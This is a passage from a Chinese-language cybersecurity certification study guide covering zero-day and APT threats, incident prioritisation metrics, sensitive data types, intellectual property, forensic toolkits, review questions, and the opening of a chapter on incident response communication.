在许多情况下，在现场环境中的漏洞没有修复程序或补丁。这种漏洞被称为零日漏洞。防止零日攻击的最佳方法是通过实施高效的设计、编码和测试实践来编写无 Bug 的应用程序。让员工发现零日漏洞比让那些试图利用漏洞的人发现好得多。监控黑客社区网站可以帮助你及早检测攻击，因为黑客经常共享零日漏洞信息。蜜罐（`Honeypots`）也可以提供关于黑客用于零日攻击的方法和工具的取证信息。

针对广泛技术系统的新零日攻击定期发布。安全经理应该创建一个应用程序清单并维护一份关键系统列表，以管理这些攻击向量的风险。

由于零日攻击发生在修复程序或补丁发布之前，因此很难防止它们。与其他许多攻击一样，保持所有软件和固件更新到最新的更新和补丁是非常重要的。启用网络流量的审计日志有助于重构零日攻击的路径。安全专业人员可以检查日志以确定网络是否存在攻击，估计损失并识别纠正措施。零日攻击通常涉及“正常”活动之外的操作，因此记录正常活动基准至关重要。此外，将流量路由到中央内部安全服务可以确保任何修复都能以有效的方式影响所有流量。白名单机制（`Whitelisting`）也有助于缓解攻击，确保只有经过批准的实体可以使用某些应用程序或完成某些任务。安全专业人员应确保组织实施适当的备份方案，以确保可以恢复，从而从攻击中恢复。

# 高级持续性威胁 (`APT`)

高级持续性威胁 (`APT`) 是一种针对特定实体并长时间进行的黑客过程。在大多数情况下，`APT` 的受害者是大型公司或政府实体。攻击者通常是一个组织的个人或一个政府。攻击者有预定义的目标。一旦实现目标，攻击就会停止。可以通过监控日志和性能指标检测 `APT`。虽然没有防御措施是 100% 有效，但以下措施可以缓解许多 `APT`：

- 使用白名单帮助防止恶意软件和未经批准的程序运行。
- 修补 `Java`、`PDF` 查看器、`Flash`、浏览器和 `Microsoft Office` 等应用程序。
- 修补操作系统漏洞。
- 根据用户职责限制操作系统和应用程序的管理员权限。

# 影响事件严重性和优先级排序的因素

为了合理确定事件的优先级，必须根据事件范围和面临风险的数据类型对其进行分类。范围不仅是指事件的广泛程度，数据分类类型可能比你预想的更加多样。以下章节将讨论影响事件严重性和优先级排序的因素。

## 影响范围 (`Scope of Impact`)

范围决定了影响，它是事件广泛程度以及它对业务可能产生的潜在经济和无形影响的函数。五个常用的因素用于衡量范围。它们将在后续章节中介绍。

# 停机时间和恢复时间

必须考虑的问题之一是潜在的停机时间以及从事件中恢复所需的时间。如果建立了适当的业务连续性计划，你将拥有有关每个资产的信息，这将有助于分类影响每个资产的事件。

在确定资产关键性的过程中，你需要理解以下术语：

- 最大可容停机时间 (`MTD`)：这是组织能够忍受资源或功能故障的最大时间。这也被称为最大中断时间 (`MPTD`)。
- 平均修复时间 (`MTTR`)：这是发生灾难或中断时，修复单个资源或功能所需的平均时间。
- 平均故障间隔时间 (`MTBF`)：这是设备在发生故障之前的预计运行时间。该时间由设备供应商计算。较高的 `MTBF` 和较低的 `MTTR` 可以增加系统可靠性。
- 恢复目标时间 (`RTO`)：这是发生灾难或中断后，为了避免不可接受的后果必须恢复资源或功能的最短时间。`RTO` 假设存在可以接受停机时间。`RTO` 应该小于 `MTD`。
- 工作恢复时间 (`WRT`)：这是 `RTO` 和 `MTD` 之间的差，即在 `RTO` 之后达到 `MTD` 之前的剩余时间。
- 恢复点目标 (`RPO`)：这是受干扰资源或功能必须返回的时间点。

每个组织必须制定自己的记录关键性级别。以下是组织资源和功能关键性级别的良好示例：

- 关键 (`Critical`)：关键资源是对组织运行至关重要的资源，应在灾难或中断发生后几分钟或几小时内恢复。
- 紧急 (`Urgent`)：紧急资源应在 24 小时内恢复，但被认为不如关键资源重要。
- 重要 (`Important`)：重要资源应在 72 小时内恢复，但被认为不如关键或紧急资源重要。
- 普通 (`Normal`)：普通资源应在 7 天内恢复，但被认为不如关键、紧急或重要资源重要。
- 非关键 (`Nonessential`)：非关键资源应在 30 天内恢复。

## 数据完整性

数据完整性指的是数据的准确性、完整性和健全性。完整性服务的目标之一是保护数据的完整性，或至少提供一种手段，在数据损坏或发生未经授权的更改时发现它。不移动的数据完整性攻击面临的挑战之一是，其影响可能多年不被察觉——直到有理由对数据产生质疑。

使用文件哈希算法和工具可以更容易识别数据完整性的泄露，以便在事件发生后检查少用但敏感文件是否有未经授权的更改。可以运行这些工具来快速识别被篡改的文件。它们可以帮助你更好地评估数据损坏的范围。

# 经济

事件的经济影响主要由涉及资产的价值驱动。确定这些价值可能是困难的，对于计划、设计和配方等无形资产。实体资产包括计算机、设施、用品和人员。无形资产包括知识产权、数据和组织声誉。资产的价值应该从资产所有者的角度进行考虑。可以使用以下因素来确定资产的价值：


- 对所有者的价值
- 开发或获取资产所需的工作
- 维护资产的成本
- 资产丢失将导致的损害
- 竞争对手为该资产支付的成本
- 资产丢失将导致的罚金

在确定资产价值后，你应该确定每个资产的漏洞和威胁。

# 系统流程的关键性

某些资产实际上不是信息，而是提供信息访问的系统。当这些系统或系统组提供继续业务所需的数据访问权限时，它们被称为关键系统。虽然确定服务器、路由器、交换机和其他设备等物理资产的价值要简单得多，但在这些系统提供关键数据访问权限或需要继续执行关键业务流程的情况下，它们的价值超过了硬件的更换成本。应该增加分配的价值，以反映其在提供数据访问方面的重要性或其在继续关键流程中的作用。


## 数据类型

为了正确对数据类型分类，安全分析师应该熟悉组织可能拥有的一些最敏感的数据类型。

## 个人身份信息 (`PII`)

在考虑今天的技术及其使用时，隐私是用户的一个主要关注点。这种隐私通常涉及三个领域：哪些个人信息可以与谁共享、信息是否可以进行机密交换，以及人们是否以及如何匿名发送信息。隐私是组织采取的任何安全措施不可或缺的一部分。

作为组织为了保护隐私而必须采取的安全措施的一部分，必须理解、识别并保护个人身份信息 (`PII`)。

`PII` 是任何可以单独使用或与其他信息结合用以识别单个人的数据。组织收集的 `PII` 必须受到最强力的保护。`PII` 包括全名、身份标识（包括驾照号码）、出生日期、出生地、生物识别数据、财务账户号码（包括银行账户和信用卡号）以及数字身份（包括社交媒体名称和标签）。

请记住，不同国家和政府级别可能对识别 `PII` 有不同的定义标准。安全专业人员必须确保他们理解有关 `PII` 的国际、国家、州和地方法规和法律。随着数据窃取变得日益普遍，你可以预计会有更多法律出台并影响你的工作。`PII` 的示例如图 7-1 所示。

## 图 7-1. `PII`



## 个人健康信息 (`PHI`)

组织可能拥有的一种特殊 `PII` 类型是个人健康信息 (`PHI`)。`PHI` 包括个人的医疗记录，必须按照 1996 年《健康保险可流动性与责任法案》(`HIPAA`) 中规定的特定方式进行保护。`HIPAA` 也称为《肯尼迪-卡塞鲍姆法案》，影响所有医疗机构、医疗保险公司和医疗数据结算中心。它由卫生和人类服务部的民事权利办公室执行。它为存储、使用和传输医疗信息和医疗数据提供了标准和程序。`HIPAA` 覆盖州法律，除非州法律更严格。该法律的补充规定将其扩展到为受保护组织工作的第三方，如果这些第三方处理此类信息的话。

## 支付卡信息

另一种 `PII` 类型是几乎所有公司都拥有信用卡数据。这些数据的持有者必须保护它们。发生过的许多知名安全泄露事件都涉及此类数据的窃取。支付卡行业数据安全标准 (`PCI-DSS`) 影响任何为主要信用卡公司处理持卡人信息的组织。最新版本是 3.2。为了证明符合该标准，组织必须每年接受审查。虽然 `PCI-DSS` 不是法律，但该标准已经影响了几项州法律的通过。`PCI-DSS` 规定了 12 项要求，如表 7-2 所示。

表 7-2. `PCI DSS` 控制目标

| 控制目标 | `PCI DSS` 要求 |
| :--- | :--- |
| 构建并维护安全网络 | 1. 安装并维护防火墙配置以保护持卡人数据。<br>2. 不要使用供应商提供的默认密码和其他参数。 |
| 保护持卡人数据 | 3. 保护存储的持卡人数据。<br>4. 在开放网络上加密传输持卡人数据。 |
| 维护漏洞管理计划 | 5. 更新受恶意软件影响的系统的防病毒软件。<br>6. 开发安全的系统和应用程序。 |
| 实施强访问控制措施 | 7. 根据业务需要限制对持卡人数据的访问。<br>8. 为每个访问计算机员分配唯一 `ID`。 |
| 定期监控和测试网络 | 9. 限制对持卡人数据的物理访问。<br>10. 跟踪和监控对网络资源和持卡人数据的访问。<br>11. 定期测试安全系统和流程。 |
| 维护信息安全政策 | 12. 维护信息安全的政策。 |

商家和客户面临的一个新安全问题是使用近场通信 (`NFC`) 的支付卡安全，例如 `Apple Pay` 和 `Google Wallet`。虽然 `NFC` 是一种短距离无线传输，因此难以拦截，但拦截仍然可能。此外，这些传输通常是加密的。任何情况下，都可以采取以下措施确保安全：

- 锁定移动设备。设备在读取 `NFC` 标签之前开启或解锁。
- 不使用关闭 `NFC`。
- 对于被动标签，使用 `RFID`/`NFC` 屏蔽设备。
- 扫描移动设备以检查不良应用程序、间谍软件和其他可能从你的支付应用中提取信息的威胁。

## 知识产权

知识产权是所有者拥有专权的实体或无形资产。知识产权法是承认智力创造物独有权的法律群。此类法律涵盖的知识产权包括：

- 专利
- 商业秘密
- 商标
- 版权
- 软件盗版和许可问题
- 数字版权管理 (`DRM`)


以下章节解释了这些类型的知识产权及其内部保护。

## 专利

专利授予个人或公司，以涵盖专利申请中描述的发明。在授予专利后，只有专利所有者可以在一段时间内（通常为 20 年）制造、使用或出售该发明。虽然专利被认为是最强大的知识产权保护之一，但在专利过期后，发明将进入公共领域，从而允许任何实体制造和销售该产品。

专利诉讼在当今世界很常见。你经常看到 `Apple`、`HP` 和 `Google` 等科技公司就专利侵权提起诉讼（通常是相互起诉）。

因此，许多公司在开发新技术之前会邀请法律团队参与专利研究。在当今竞争激烈的市场中，首个获得专利至关重要。

任何已经生产且正处于专利申请过程的产品，通常都会标记有“专利申请中”（`Patent Pending`）标签，如图 7-2 所示。

图 7-2. 专利标签


商业机密确保专有技术或业务信息的机密性。商业秘密为组织提供了竞争优势。商业机密包括配方、公式、成分列表等必须保护免受泄露的内容。一旦商业秘密被竞争对手或公众获得或公开，它就不再被视为商业秘密了。

大多数拥有商业秘密的组织都会尝试通过保密协议（`NDA`）来保护它们。任何接触到商业机密部分信息的实体都必须签署 `NDA`。如果组织能够证明签署者违反了协议，任何签署 `NDA` 的人都将承担法律后果。

## 商标

商标确保识别产品或组织的符号、声音或表达受到保护，防止其他组织使用。商标允许产品或组织被大众认可。

大多数商标标记有图 7-3 所示的标识之一。如果商标未注册，组织应使用大写的 `TM`。如果商标已注册，组织应使用带圆圈的大写 `R`。

图 7-3. 商标标识

商标：


注册商标：


## 版权

版权确保作者创作的作品受到保护，防止未经版权持有者（通常是创建原始作品的作者或艺术家）许可而进行的任何形式的复制或使用。版权的有效期比专利长。尽管美国版权局有几项准则来确定版权的有效期，但对于 1978 年 1 月 1 日之后创作的作品，通用规则是作者寿命加 70 年。

1996 年，世界知识产权组织（`WIPO`）对数字版权的处理进行了标准化。版权管理信息（`CMI`）是添加到任何数字作品中的许可和所有权信息。在这项标准化中，`WIPO` 规定包含版权材料中的 `CMI` 不得更改。

图 7-4 所示的符号表示受版权保护的作品。


## 企业机密

企业机密数据是指在组织内部需要保密的内容。这可能包括：

- 计划公告
- 可能是组织特有的流程和程序
- 利润数据和估计
- 薪资
- 市场份额数据
- 客户列表
- 绩效评估

## 保护知识产权

组织的知识产权（`IP`），包括专利、版权、商标和商业机密必须受到保护，否则业务将失去此类属性创造的任何竞争优势。为了确保组织保留其 `IP` 带来的优势，应该采取以下措施：

- 投资于编写良好的保密协议（`NDA`），并将其纳入雇用协议、许可、销售合同和技术转让协议中。
- 确保所有计算机系统都部署了严格的安全协议。
- 使用加密技术保护位于计算机系统中的商业机密，或将存储限制在没有外部互联网连接的计算机系统中。
- 部署有效的内部威胁反制措施，特别关注脱钩检测和缓解技术。

## 会计数据

当今网络中的会计数据通常包含在会计信息系统（`AIS`）中。虽然这些系统与其他系统（如 `HR` 和客户关系管理系统）提供了宝贵的集成，但这种集成是以在这些系统之间建立安全连接为代价的。许多组织为了利润最大化，正在放弃旧的会计软件，转而使用云供应商。云安排带来了自己的安全问题，例如公共云中常见的多租户环境中数据混合的危险。此外，考虑到虚拟基础设施是这些云系统的基础，虚拟环境的所有风险都会随之而来。

考虑到这些数据的关键性以及组织对大部分数据保密的需求，针对此类信息或提供此类访问系统的事件应被视为高优先级。应采取以下步骤来保护这些信息：

- 始终确保建筑的物理安全。
- 确保在边界部署防火墙，并利用其所有功能，如 `URL` 和应用程序过滤、入侵防御、反病毒扫描，以及通过虚拟专用网络和 `SSL` 加密进行远程访问。
- 定期审计所有服务器资源上的文件和文件夹权限。
- 加密所有会计数据。
- 备份所有会计数据并将其存储在使用 `RAID` 等冗余技术的服务器上。

## 合并与收购

当两家公司合并时，这就像是一种婚姻。网络可以合并，系统可以集成，或者在某些情况下，可能会建立全新的基础设施。这些过程提供了一个机会，重新审视所有系统是否符合安全要求。这可能相当困难，因为两个实体可能使用不同的硬件供应商、不同的网络架构，或不同的策略和程序。

合并中的每个实体都应该利用谈判期间被称为“尽职调查”的时间来研究和了解对方的运营细节。只有这样，两个实体在进入合并时才能对未来的情况了如指掌。在两个网络连接之前，应该对这两个网络进行渗透测试，以便让所有方都了解现有的风险。最后，建议制定互连安全协议（`ISA`），并对收购公司的整个运营进行全面的风险分析。任何发现缺乏控制的系统都应该进行重新设计。大多数情况下，新公司会采用原公司更严格的安全技术和政策。

## 取证工具包

为了准备好快速应对安全事件，安全分析师应该拥有或随身携带数字取证工具包，其中包含响应事件可能需要的所有工具和材料。此外，她应该对数字调查过程有清晰的理解。以下章节将介绍取证工具包的构成，并讨论组成取证调查套件的工具。

当事件发生时，快速响应至关重要，因为此类调查中收集的证据是易失的，时间非常宝贵。因此，你不想在那个时刻寻找所需的物品。一个数字取证工作站是重要的工具，将在后续章节中进行更详细的描述。

## 数字取证工作站

调查应配备一台专用工作站，且该工作站不应是生产系统之一。它应该专门为此过程设立。专门为此目的创建的特殊系统价格非常昂贵，但在需要时物有所值。你也可以为该目的构建一台专用的工作站。`SAN` 学院在《构建低成本取证工作站》文档中列出了取证工作站的以下要求：

- 系统必须具备网络连接能力。
- 系统必须支持硬件级驱动器复制。
- 系统必须支持远程和基于网络的驱动器复制。
- 系统必须支持对以下常见文件系统的复制和分析：
    - `NTFS`
    - `FAT16`/`32`
    - `Solaris UFS`
    - `BSD UFS`
    - `EXT2` (`Linux`)
    - `EXT3` (`Linux`)
    - `HFS` & `HFS+` (`Macintosh`)
    - `Swap`
    - `Solaris`
    - `BSD`
    - `Linux`
- 系统必须具备验证镜像和文件完整性的能力。
- 系统能够识别文件被修改、访问和创建的时间。
- 系统必须具备创建文件系统活动时间线的能力。
- 系统能够识别已删除的文件。
- 系统能够分析已分配的驱动器空间。
- 系统能够隔离并分析未分配的驱动器空间。
- 系统必须允许调查人员将磁盘镜像和证据直接关联到案件。
- 系统必须允许调查人员为案件和特定证据添加备注。
- 系统必须支持用于存储和传输证据及磁盘镜像的可移动介质。
- 系统收集的证据在法庭上必须具有法效力。

在调查之前，你的工具箱中应该准备好的其他项目包括：

- **写保护器（Write blockers）**：数字证据在法庭上提出的关键问题之一是证据是否被篡改或损坏。写保护器是一种允许对数据存储设备进行只读访问且不会损害数据完整性的工具。根据美国国家标准与技术研究院（`NIST`）的标准，写保护设备应具有以下特征：
    - 工具不应允许受保护的驱动器被更改。
    - 工具不应防止从任何驱动器获取或关于任何驱动器的信息。
    - 工具不应防止对未受保护的驱动器进行任何操作。

这些设备可以是硬件设备，也可以是安装在取证工作站上的软件。无论何种方式，这些工具都会阻止修改数据的命令。关键在于，它们允许你在不更改原始存储设备的情况下，获取完成调查所需的信息。

- **线缆**：你应该准备各种连接到存储设备的线缆。示例包括：
    - **信号与电源复合线**：包括用于 `USB` 及其适配器、`SATA` 和 `FireWire`（包括 400 和 800）的线缆。
    - **信号线**：包括 `SATA`。
    - **电源线**：包括 `Molex`。
    - **驱动器适配器**：你需要各种适配器来连接不同类型的驱动器。它应该支持以下设备：
        - `SATA`
        - `SSD`
        - `SD`
        - `CF`
    - **可移动介质**：你应该准备用于存储和传输证据及磁盘镜像的可移动介质。这些可能包括：
        - `USB` 盘
        - 外部硬盘
        - `CD`/`DVD`
        - 蓝光光
        - `SD` 卡
        - `SD` 卡
        - `SD` 卡
        - `microSD` 卡
        - 内存棒
        - `CD-RW`
        - `DVD`
    - **相机**：你应该准备各种相机来记录现场。这些可能包括：
        - 数字相机 (`DSLR`)
        - 单反相机 (`SLR`)
        - 自动曝光模式
        - 手动曝光设置
- **防封条**：你应该准备防封条来保护证据。这用于防止污染。
- **文档表单**：你需要表单来记录事件。这些可能包括：
    - **监管链表（Chain of custody form）**：该表单用于跟踪谁处理过证据。
    - **事件表**：该表单用于描述事件。
    - **事件响应计划**：这是一个用于响应事件的计划。
- **访谈**：你可能需要访谈事件见证人。
- **摄影**：你可能需要通过摄影记录现场。
- **软件**：你将需要用于分析和报告的软件。这些可能包括：
    - 取证分析工具
    - 数据恢复工具
    - 密码分析工具
    - 恶意软件分析工具
- **取证硬件**：你需要用于取证调查的专用硬件。这些可能包括：
    - 写保护器
    - 磁盘复制器
    - 取证工作站

创建此位级副本。你应该确保保留两份图像副本。其中一份副本将被存储，以确保有一份无损、准确的副本作为证据。另一份副本将在检查和分析步骤中使用。应使用消息摘要（或哈希摘要）来确保数据完整性。

- 分析工具：你需要一个工具来分析创建的位级副本。市场上有很多此类工具。通常，这些工具包含在法医取证套件和工具包中，例如由 `EnCase`、`FTK` 和 `Helix` 销售的软件。（有关更多工具，请参阅第 14 章“使用网络安全工具和技术”。）

- 证据链：虽然应该保留证据链的纸质副本，但某些软件套件包含了可以帮助管理这一过程的软件。这些工具可以帮助你为所有证据维护准确且合法的证据链，或者在没有纸质备份的情况下。执行双重电子签名采集，将两个签名都放在 `Excel` 表格中作为传输的证明。这些签名经过了双重加密，因此如果电子表格发生任何更改，签名将会消失。

- 哈希工具：你需要能够证明某些证据在你保管期间没有被更改过。哈希工具使用哈希算法创建一个值，稍后可用于验证信息未更改。最常用的两种算法是消息摘要 5 (`MD5`) 和安全哈希算法 (`SHA`)。

- 操作系统和进程分析：这些工具侧重于操作系统的活动和已执行的进程。虽然大多数操作系统都有某种工具可以报告进程，但取证套件中包含的工具具有更强大的功能和能力。

- 移动设备取证：如今，许多事件涉及移动设备。你需要不同的工具从这些设备中获取所需的信息。一个套件应该包含为此目的的工具。

- 密码破解器：很多时候，调查人员发现密码阻碍了获取。在这种情况下，需要密码破解工具。大多数套件都包含了几个此类用途的密码破解工具。第 14 章列出了其中一些工具。

- **加密工具**：当调查人员遇到加密证据时会使用这些工具，这种情况变得越来越常见。其中某些工具可以解密常见的加密类型（例如 `BitLocker`、`Bitlocker To Go`、`PGP`、`TrueCrypt`），它们还可能从内存转储文件（`RAM dumps`）和休眠文件中定位解密密钥。

- **日志查看器**：最后，因为许多证据可以在设备上的日志中找到，一个强大的日志读取工具也是有用的。日志查看器应该具备读取所有 `Windows` 日志以及注册表的能力。此外，它应该能够读取由其他操作系统创建的日志。

## 考试准备任务

正如引言中“考试准备策略”部分提到的，你对考试准备有几个选择：此处的练习题、第 15 章“最终准备”以及 `Pearson IT` 认证引擎中的模拟考试。

## 复习所有关键主题

回顾本章中最重要的主题，这些主题在页外边缘上用“关键主题”图标标记出。表 7-3 列出了这些关键主题以及它们所示的页码。

表 7-3. 第 7 章关键主题

| 关键主题元素 | 描述 | 页码 |
| --- | --- | --- |
| 章节 | 威胁类型 | |
| 列表 | 恢复术语 | |
| 列表 | 用于确定资产价值的考虑因素 | |
| 章节 | 数据类型 | |
| 列表 | 知识产权类型 | |
| 列表 | 数字取证工作站组件 | |
| 步骤 | 应急响应系统中的步骤 | |
| 列表 | 取证箱组件 | |

# 定义关键术语

定义本章的以下关键术语并对照术表检查你的答案：

已知威胁 (`known threats`)

未知威胁 (`unknown threats`)

零日攻击 (`zero-day attack`)

高级持续性威胁 (`advanced persistent threat`)

最大可停机时间 (`MTD`)

平均修复时间 (`MTTR`)

平均故障间隔时间 (`MTBF`)

恢复时间目标 (`RTO`)

工作恢复时间 (`WRT`)

恢复点目标 (`RPO`)

数据完整性 (`data integrity`)

个人身份识别信息 (`PII`)

个人健康信息 (`PHI`)

1996 年《健康保险可流动性与责任法案》(`HIPAA`)

支付卡行业数据安全标准 (`PCI-DSS`)

近场通信 (`NFC`)

专利 (`patent`)

商业秘密 (`trade secret`)

商标 (`trademark`)

版权 (`copyright`)

知识产权 (`intellectual property`)

取证箱 (`forensics kit`)

数字取证工作站 (`digital forensics workstation`)

写保护器 (`write blockers`)

驱动适配器 (`drive adapters`)

证据链 (`chain of custody`)

取证调查套件 (`forensic investigation suite`)

镜像工具 (`imaging utilities`)

分析工具 (`analysis utilities`)

哈希工具 (`hashing utilities`)

操作系统和进程分析工具 (`OS and process analysis tools`)

移动设备取证 (`mobile device forensics`)

密码破解器 (`password crackers`)

加密工具 (`cryptography tools`)

日志查看器 (`log viewers`)

## 复习题

1. 最近一种病毒感染了网络，尽管它是一个非常老的病毒，但防病毒软件并没有检测到它。以下哪些威胁实际上是经过回收利用但没有攻击特征的旧威胁？
   a. 未知
   b. 零日
   c. 已知
   d. `APT`

2. 最近防火墙和 `IPS` 都没有检测到针对 `SQL` 服务器的攻击。以下是在环境中发现的目前没有修复程序或补丁的漏洞？
   a. 未知
   b. 零日
   c. 已知
   d. `APT`

3. 团队正在审查其正在考虑的新交换机规格。团队的担心之一是发生中断时进行维修需要多长时间。以下是修复资源或功能所需的平均时间？
   a. `MTD`
   b. `MTTR`
   c. `RTO`
   d. `RPO`

4. 作为风险管理的一部分，该组织正尝试为所有资产赋值。以下哪项在为资产附加价值时不是考虑因素？
   a. 对所有者的价值
   b. 企业的成本
   c. 维护成本
   d. 广告成本

5. 自从参加完关于隐私的会议回来，`CIO` 创建了一项计划，旨在定位组织负责保持私密的所有数据。以下是任何可以单独或与其他信息结合以识别个人的数据的术语？
   a. `PHI`
   b. `PII`
   c. 知识产权
   d. 个人

6. 以下哪项不被认为是知识产权？
   a. 专利
   b. 合同
   c. 商标
   d. 版权

7. 以下哪项可以确保识别产品的符号、声音或表达不被他人使用？
   a. 商业秘密
   b. 专利
   c. 版权
   d. 商标

8. 以下哪项通常不包含在取证箱中？
   a. 写保护器
   b. 数字取证工作站
   c. 立得相机
   d. 可移动媒体

9. 以下哪项指示了谁处理了证据、何时处理的以及人员持有证据的顺序？
   a. 证据链表
   b. 应急响应计划
   c. 应急响应表
   d. 升级列表

10. 以下哪项是应急响应的最后一步？
    a. 报告
    b. 回顾
    c. 恢复
    d. 响应

# 第 8 章 应急响应流程

本章涵盖了以下主题：

3.0 网络应急响应

3.3 解释应急响应过程中通信的重要性。

- **利益相关者**：描述参与应急响应的组织部门。
- **沟通流程的目的**：涵盖了应急响应期间部门间沟通的最佳实践。
- **基于角色的职责**：列出了组织中各种角色的应急响应职责。

3.4 给定场景，分析常见症状以选择支持应急响应的最佳行动方案。

- **常见网络相关症状**：描述可能指示攻击或事件的网络症状。
- **常见主机相关症状**：描述可能指示攻击或事件的主机症状。
- **常见应用相关症状**：描述可能指示攻击或事件的应用程序症状。

近年来，数字取证方面已经开发了最佳实践。通过将这些最佳实践整合到你的应急响应计划中，你可以借鉴前人的经验极大地增强这一过程。本章介绍了一些使用的程序以及导致成功事件响应的方法。

## 我已经掌握了这些吗？测验

“我是否已经掌握了这些？”测验可以帮助你评估是否应该阅读整个章节。表 8-1 列出了本章的主要标题以及涵盖这些标题中内容的“我是否已经掌握了这些？”测验题，以便你能够评估自己对这些特定领域的掌握情况。测验答案见附录 A，“‘我是否已经掌握了这些？’测验与复习题答案”。如果你错过的这些自评估题少于一个，你可能希望直接跳到“考试准备任务”。

表 8-1。“我是否已经掌握了这些？”基础主题章节与问题映射

| 基础主题 | 题目 |
| :--- | :--- |
| 相关利益者 | 1 |
| 通信流程的目的 | 2 |
| 基于角色的职责 | 6 |
| 常见的网络相关症状 | 3, 5 |
| 常见的主机相关症状 | 7 |
| 常见的应用相关症状 | 4 |

1. 以下哪一个事件响应相关利益者负责制定政策和程序，以支持开除被发现参与不当或非法活动的员工？
   a. 人力资源部门
   b. 法务
   c. 营销
   d. 管理层

2. 以下哪项不是与利益者通信的最佳实践？
   a. 将通信限制在信任方。
   b. 根据监管/立法要求进行披露。
   c. 支持信息的无意发布。
   d. 使用安全的通信方法。

3. 在检查防火墙日志后，你发现有一台设备按定期计划有流量离开网络。以下哪项是指按定期间隔离开网络的网络流量？
   a. 数据外泄 (`Exfiltration`)
   b. 信标 (`Beaconing`)
   c. 扫射 (`Sweep`)
   d. 扫描 (`Scan`)

4. 你收到了一份简报，称你组织使用的应用程序之一很容易被破解。由于尚未可用补丁，你正在调查所有安装了该程序的设备以寻找被破解的迹象。以下哪项不是应用程序被破解的指标？
   a. 引入新账户
   b. 意外输出
   c. 意外的入站通信
   d. 服务中断

5. 你被提醒有人在使用 `ICMP` 收集网络信息。以下哪项使用 `ICMP` 来识别所有活动主机？
   a. 端口扫描
   b. 漏洞扫描
   c. 信标 (`Beaconing`)
   d. `Ping` 扫射 (`Ping sweep`)

6. 以下哪种角色必须仅在安全事件期间发现犯罪时才参与？
   a. 技术人员
   b. 管理人员
   c. 执法部门
   d. 第三方事件响应提供者

7. 你正在对从事件中收集证据进行分类。以下哪种症状会被认为是主机相关症状？
   a. 异常的网络流量激增
   b. 内存溢出
   c. 处理器占用
   d. 信标 (`Beaconing`)

## 基础主题

在事件期间，处理过程中各种利益者之间的适当通信对于响应的成功至关重要。确保适当通信的一个关键步骤是为事件响应（`IR`）团队选择合适的人员。由于这些人将负责与利益者通信，因此通信技能应该是 `IR` 团队的关键选择标准。此外，该团队在选择代表每个利益者社区的人员时，应采取以下步骤：

- 根据通信技能选择代表人员。
- 召开定期会议。
- 使用适当的升级程序。

以下章节识别了这些利益者，讨论了通信流程的重要性，描述了通信流程的最佳实践，并列出了参与响应的各种关键角色的职责。

## 利益者

组织中的各个部门都是事件响应过程的利益者。每个部门对该过程都有不同的看法，并且每个部门在创建事件响应团队和创建正式响应文档方面都充当着特定的角色。

## 人力资源 (`HR`)

人力资源部门在响应中的角色涉及以下职责：

- 为将要聘用的参与事件响应职位的人员编写职位描述。
- 制定政策和程序，以支持开除被发现参与不当或非法活动的员工。例如，人力资源部门应确保在政策和新入职文件中明确这些活动，并将其列为可以受到开除惩罚的行为。这有助于在发生开除时避免用工纠纷。

## 法务

法务部门的角色是执行以下工作：

- 审查保密协议，以确保支持事件响应工作。
- 制定用于联系可能受影响的站点和组织的文档措辞。
- 评估站点对非法计算机活动的法律责任。

## 营销

营销部门可以参与以下活动以支持事件响应计划：

- 创建简报和其他教育材料，用于员工响应培训。
- 与法务部门协调，处理有关事件的媒体响应和内部通信的提前准备工作。

## 管理层

事件响应计划成功的最重要的因素是高层管理者的口头和财务支持（通过预算流程）。此外，所有其他级别的管理层都应该支持所有工作。具体而言，管理层的角色涉及以下内容：

- 向组织的所有部门宣传事件响应计划的重要性。
- 制定协议，详细说明事件响应团队在必要接管业务系统的权限。
- 为系统何时必须从网络中移除建立决策系统。

# 通信流程的目的

随着时间的推移，处理利益者之间通信的最佳实践已不断发展。通过遵循这些最佳实践，你更有机会保持控制并实现事件响应的目标。不遵循这些指南可能会导致诉讼、过早通知嫌疑方、敏感信息泄露，并导致事件响应过程无法达到预期效果。

# 将通信限制在信任方

在事件期间，通信应仅与预先指定的人员进行。此外，这些通信的内容应限于每个利益者履行其职责所需的必要范围。

# 根据监管/立法要求的披露

某些行业的组织可能需要遵守监管或立法要求，向影响方和发布这些法规的机构通报数据漏洞。组织应将这些通信类型纳入计划。

## 防止信息的无意发布

所有响应人员都应采取措施防止向计划未指定的方披露任何信息。此外，所有发布给公众和媒体的信息应由公关或接受过此类培训的人员处理。所有通信的时间也应在计划中说明。

# 安全的通信方法

利益者之间发生的所有通信应使用安全的通信流程，以确保信息不泄露或被嗅探。这些通信应使用安全的通信通道和强加密机制。最好的方法是创建一个带外通信方法，该方法不使用常用的电子邮件或 `VoIP`。虽然个人手机可以作为语音通信的方法，但文件和数据交换应通过提供端到端加密的方法进行，例如 `OTR` 加密。

# 基于角色的职责

组织内外的实体都可能参与事件。每个实体在响应中都起着作用。以下章节讨论了其中一些实体。

## 技术

`IT` 和安全团队的角色是识别、发现并响应事件，并在需要时为分析这些事件提供支持。`IT` 和安全团队提供了人力力量、技能和知识，作为第一响应人员并修复发现的所有问题。因此，建议对从事 `IR` 相关职位的人员进行高级培训。

## 管理层

